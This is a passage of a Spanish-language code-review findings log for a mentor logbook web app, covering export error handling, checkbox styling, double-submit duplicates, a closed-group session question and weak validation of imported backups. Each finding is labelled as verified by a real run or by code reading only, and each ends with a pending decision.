24. **(security-reviewer, 2026-08-07, commit `9bf2e86`) `exportCSV()` no tiene manejo de error para un valor de celda extremadamente largo, a diferencia de `exportExcel()`.** El campo nuevo "Sobre el mentee" es un `<textarea>` sin límite de longitud; un valor de decenas de miles de caracteres no rompe el escapado ni el render, pero si algún lector de CSV tiene un límite de tamaño de celda, `exportCSV()` (`bitacora-mentor.html:2312-2331`) no tiene ningún `try/catch` que capture una falla — a diferencia de `exportExcel()` (línea 2333-2345), que si falla por el límite de 32.767 caracteres por celda de Excel, muestra el toast "No se pudo generar el Excel." en vez de reventar. No verificado con ejecución real si esto realmente falla en algún lector de CSV. *Decisión pendiente: envolver `exportCSV()` en su propio manejo de errores, igual que ya tiene `exportExcel()`.*

25. **(security-reviewer, 2026-08-07, commit `9bf2e86`) `cursor:pointer` sobre un checkbox `disabled` es una inconsistencia de UX preexistente, no introducida por este commit, que tampoco lo corrige.** El único checkbox de solo lectura de la app (`renderChecklistReadonly()`, `bitacora-mentor.html:787-803`, con atributo `disabled`) muestra cursor de mano al pasar el mouse por encima, aunque no responde al clic — la regla CSS anterior a este commit ya aplicaba `cursor:pointer` sin distinguir `:disabled`, y la nueva regla (`bitacora-mentor.html:392-401`, con `!important`) tampoco lo distingue. Sin implicación de seguridad real (el bloqueo de interacción depende del atributo HTML `disabled`, no del CSS), pero puede confundir visualmente a quien pase el mouse sobre un ítem ya marcado en el historial de una sesión. *Decisión pendiente: agregar `.checklist-row input[type="checkbox"]:disabled{cursor:default;}` si se quiere cerrar la inconsistencia visual, o aceptarla como está.*

26. **CERRADO — confirmado con ejecución real por qa-lead el 2026-08-12 (commit `4140feb`, ya fusionado antes del commit `8fdcdd5`, movió el fix a la raíz `.field input[type="checkbox"]`): el checkbox de `.member-check-row` mide ahora 13×13px natural, en desktop y a 375px. Ya no aplica el hallazgo original de abajo, que se conserva íntegro por trazabilidad.** ~~(qa-lead, 2026-08-07, commit `9bf2e86`, ejecución real) `.member-check-row` (lista de integrantes del modal "Nuevo grupo de mentoría", `bitacora-mentor.html:1641-1648`) tiene el MISMO bug visual que motivó este commit — checkbox estirado a todo lo ancho de la fila — y no fue tocado ni corregido.** Medido en vivo con `getBoundingClientRect`: el checkbox mide 351-366px de ancho (contra 13px que debería tener), confirmado con dos nombres de mentee distintos (corto y largo) en la misma sesión. Causa raíz idéntica a la que motivó el fix de `.checklist-row`: `.member-check-row` vive dentro de un `
` (línea 1641), y su propia regla CSS (`.member-check-row input{cursor:pointer;}`, sin `width`) no le gana a `.field input{width:100%;...}`. Confirmado con `diff` que el CSS de `.member-check-row`/`.member-check-row input` es byte-idéntico entre `origin/master` y HEAD — **preexistente, no introducido por este commit**, pero tampoco corregido por él, pese a que el encargo de revisión pedía explícitamente comprobar "que no se hayan afectado" otros sitios con casillas — este no fue afectado porque nunca estuvo bien. Con un nombre de mentee más largo el texto no llega a partirse en 2 líneas en las pruebas realizadas (15px de alto, una línea), pero el checkbox estirado por sí solo ya reproduce el defecto visual central de la queja original de la usuaria. *Decisión pendiente: aplicar la misma corrección (`width:auto!important;flex:0 0 auto;padding:0!important;border:none!important;background:none!important;` + `flex:1` al ``) a `.member-check-row input[type="checkbox"]`, o confirmar explícitamente con la usuaria que ese sitio queda fuera de alcance de este cambio.*~~

27. **(qa-lead, 2026-08-07, commit `9bf2e86`, ejecución real, hallazgo menor) El `baseInfo` de las filas de GRUPO en `buildExportRows()` (`bitacora-mentor.html:2286-2293`) no incluye la clave `'Sobre el mentee'` en absoluto, a diferencia de todos los demás campos exclusivos de mentees individuales (`Area`, `Nivel`, `'Tipo de mentoria'`, `Estado`, `Resultado`, `'Estilo de aprendizaje'`, `Telefono`, `Correo`, `Pais`, `Progresion`), que sí tienen su contraparte vacía `''` explícita para grupos.** Confirmado con ejecución real de `XLSX.utils.json_to_sheet` (biblioteca real cargada desde CDN) sobre filas mixtas (mentees + grupo) que esto **no** causa desalineación de columnas ni pérdida de datos — la librería alinea celdas por nombre de propiedad, no por posición, y una fila sin una clave presente en otras simplemente queda en blanco en esa columna, tanto en Excel como en el CSV a mano (mismo resultado en ambos formatos, verificado). Es una inconsistencia de estilo de código (omisión de una línea), no un defecto funcional. *Decisión pendiente: agregar `'Sobre el mentee': ''` al `baseInfo` de grupos por consistencia con el resto de campos, sin urgencia dado que no tiene efecto visible.*

28. **(qa-lead, 2026-08-07, commit `9bf2e86`, discrepancia de proceso) La nota de versión de este commit está guardada como `release-notes/2026-08-03-mentor-checkbox-y-sobre-el-mentee.md` (titulada "3 de agosto de 2026"), pero el commit real (`9bf2e86`) se hizo el `2026-08-07` según `git log --date=iso` — 4 días de diferencia entre la fecha del archivo/título y la fecha real del commit.** El contenido de la nota es preciso (coincide cifra por cifra con lo verificado en vivo: 13px/315px, ubicación "junto al objetivo", comportamiento con mentees viejos) — el problema es solo la fecha, que además no sigue el formato `YYYY-MM-DD.md` que exige `CLAUDE.md` para el nombre del archivo del día real. *Decisión pendiente: renombrar el archivo a la fecha real (`2026-08-07-...md`, con sufijo `-2`/`-3` si ya hay otra nota ese día) y corregir el título.*

29. **(qa-lead, 2026-08-12, commit `8fdcdd5`, ejecución real) Doble clic real en "Guardar mentee" crea un mentee duplicado — bug preexistente, no introducido por este commit, pero la nueva casilla "Seguir agregando" aumenta la probabilidad real de dispararlo.** Con dos `.click()` reales y consecutivos (sin esperar a que el primer `saveData()`/`render()` async termine) sobre `#btn-save` del modal de "nuevo mentee", se crean **2 mentees con el mismo nombre**. Reproducido igual **con la casilla "Seguir agregando" desmarcada** (el flujo que ya existía antes de esta rama), así que la causa raíz — ausencia de un guardia contra doble-envío — es preexistente, no nueva. Lo que sí cambia con este commit: antes, un doble clic accidental necesitaba que el segundo clic llegara *antes* de que el modal se cerrara solo (ventana angosta, poco probable con un modal que desaparece); con "Seguir agregando" marcado, el modal se queda **abierto a propósito**, invitando a la usuaria a encadenar guardados rápidos uno tras otro — exactamente el patrón de uso que el commit fue diseñado para facilitar es el que más probablemente dispare el doble clic real (doble tap en móvil, clic accidental mientras se escribe el siguiente nombre). El botón de alternar cerrado/reabierto de un grupo NO tiene este problema (es un toggle: dos clics rápidos alternan dos veces y vuelven al estado original, confirmado con ejecución real). *Decisión pendiente: agregar un guardia simple (deshabilitar `#btn-save` durante el `await saveData()`, o usar una bandera de "guardando en curso") al flujo de creación de mentee, con prioridad más alta que antes de este commit porque ahora el modal invita activamente a guardar varias veces seguidas rápido.*

30. **(qa-lead, 2026-08-12, commit `8fdcdd5`, pregunta de producto sin verificar si fue intencional) Un grupo marcado como "cerrado" sigue permitiendo agregar nuevas sesiones de grupo — el botón "+ nueva sesión" no se deshabilita ni avisa.** Confirmado con ejecución real (`#btn-new-group-session` sigue presente y `disabled:false` en la ficha de un grupo cerrado). No fue parte de lo pedido por la usuaria (que solo pidió poder marcar grupos como cerrados/completados y verlos en un historial), y no es necesariamente un defecto — puede ser intencional permitir registrar una sesión tardía en un grupo ya cerrado. Pero vale la pena que el tech lead/la usuaria decidan explícitamente si "cerrado" debería impedir (o al menos advertir antes de) agregar sesiones nuevas, en vez de quedar como un efecto secundario no decidido. *Decisión pendiente.*

22. **(security-reviewer, 2026-07-29, reverificación del RECHAZADO, hallazgo nuevo — NO introducido por `d73cec7`, preexistente) `importBackup()` (`bitacora-mentor.html:2205-2230`) solo valida `Array.isArray` para `parsed.mentees`/`parsed.sessions`, pero no para `parsed.groups`, `parsed.groupSessions` ni `parsed.templates` — un backup con cualquiera de esos tres campos en forma no-arreglo (string, número, objeto) queda persistido tal cual (`await saveData()`, línea 2222) y rompe de forma permanente las pestañas "Grupos"/"Reportes"/"Plantillas".** Confirmado por lectura de código, no ejecutado en vivo (la app usa sintaxis ES6+ — arrow functions, template literals, `async/await`, `?.` — que el único intérprete JS disponible en esta sesión, `mshta`/JScript, no soporta; limitación de entorno declarada). Trazado línea por línea: `renderGroupsView()` (`bitacora-mentor.html:1111-1113`) hace `state.groups.find(...)` y `state.groupSessions.filter(...)` como las dos primeras instrucciones de la función, **antes** de tocar el DOM — si cualquiera de los dos no es un arreglo, la excepción ocurre antes de que `body.innerHTML` se actualice, así que al hacer clic en la pestaña "Grupos" la barra superior sí cambia (queda marcada como activa) pero el panel de contenido se queda vacío, sin ningún mensaje. Mismo patrón en `renderReportsView()` (`bitacora-mentor.html:1463-1478`, usa `state.groupSessions.length/.filter/.forEach` sin guarda) para la pestaña "Reportes". El `try/catch` que ahora envuelve `migrarSesiones()` (hallazgo 21 ya cerrado) no cubre esto porque el problema no está en la migración: `state.groups`/`state.groupSessions` con un valor no-arreglo pasa de largo el único chequeo de forma que existe (`if(!state.groups) state.groups = []`, que solo reemplaza valores *falsy* — `null`/`undefined`/`''`/`0`, nunca un string/objeto/número real) y `render()` en sí no tiene ningún `try/catch`. Como el dato roto se guarda con `saveData()` inmediatamente al importar (no solo en memoria), el problema no es transitorio: se repite en cada recarga hasta que alguien edite el JSON exportado a mano. Confirmado que la ruta NO fue tocada por esta rama (`git diff origin/master..HEAD -- bitacora-mentor.html | grep importBackup` sin resultados) — es el mismo defecto de "solo valido la forma exterior" ya señalado como patrón transversal para las 5 apps en `docs/team-memory.md` (2026-07-29), aplicado aquí a tres campos que ni siquiera el chequeo superficial cubre. *Pendiente de decisión: extender la validación de `importBackup()` para exigir `Array.isArray` también en `groups`/`groupSessions`/`templates` (mismo criterio ya usado para `mentees`/`sessions`), y/o envolver las llamadas a las vistas de "Grupos"/"Reportes"/"Plantillas" en su propio manejo de errores, igual que ya se hizo para la migración.*
